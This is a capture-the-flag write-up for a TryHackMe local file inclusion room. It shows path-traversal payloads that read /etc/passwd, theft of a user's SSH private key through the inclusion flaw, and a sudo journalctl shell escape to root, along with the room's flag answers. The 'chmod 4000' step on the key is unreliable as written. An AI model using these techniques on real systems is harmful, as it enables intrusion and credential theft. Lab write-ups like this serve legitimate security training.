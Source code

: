 # LFI

{% embed url="https://tryhackme.com/room/lfi" %}
https://tryhackme.com/room/lfi
{% endembed %}

## Task 2 Getting user access via LFI

#### Look around the website. What is the name of the parameter you found on the website?

![](<../../.gitbook/assets/Screenshot from 2022-03-30 06-31-42.png>)

{% hint style="success" %}
`page`
{% endhint %}

#### Once we find the vulnerable parameter we can try to include the passwd file on the Linux system i.e /etc/passwd. The most common technique is path traversal method meaning we can include files like **../../../../etc/passwd** what this does it get out of a directory like we usually do in Linux system by running **cd ../**

#### **../../etc/passwd** means to go out twice from the current working directory and then go to **/etc** directory and read the **passwd** file. Now the issue with this method is you need to be sure about the path of the file.

#### Once you include **/etc/passwd** then you should see entries something like:

![](<../../.gitbook/assets/Screenshot from 2022-03-30 06-35-33.png>)

#### This file can give information about the system like the name of all the existing users on the system. **** What is the name of the user on the system?

![](<../../.gitbook/assets/Screenshot from 2022-03-30 06-36-48.png>)

{% hint style="success" %}
`falcon`
{% endhint %}

#### Once you find the name of the user it's important to see if you can include anything **common** and **important** in that user's directory, could be anything like theirs **.bashrc** etc

#### Name of the file which can give you access to falcon's account on the system?

![](<../../.gitbook/assets/Screenshot from 2022-03-30 06-39-55.png>)

{% hint style="success" %}
`id_rsa`
{% endhint %}

#### What is the user flag?

```bash
vim id_rsa
chmod 4000 id_rsa
ssh -i id_rsa falcon@10.10.7.221
cat user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-30 06-41-22.png>)

{% hint style="success" %}
`B8LEGIF049JT4RTVWUG4`
{% endhint %}

## Task 3 Escalating your privileges to root

#### What can falcon run as **root**?

```bash
sudo -l
```

![](<../../.gitbook/assets/Screenshot from 2022-03-30 06-47-49.png>)

{% hint style="success" %}
`/bin/journalctl`
{% endhint %}

#### Search gtfobins via the [website](http://gtfobins.github.io) or by using [gtfo tool](http://github.com/mzfr/gtfo), to see if you find any way to use that binary for privilege escalation. What is the root flag?

```bash
sudo /bin/journalctl
!/bin/bash
cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-30 06-49-02.png>)

{% hint style="success" %}
`H1EQRK5XEX140H2KMO08`
{% endhint %}

## **Reference**

{% embed url="https://github.com/cyberheartmi9/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal#basic-lfi-null-byte-double-encoding-and-other-tricks" %}
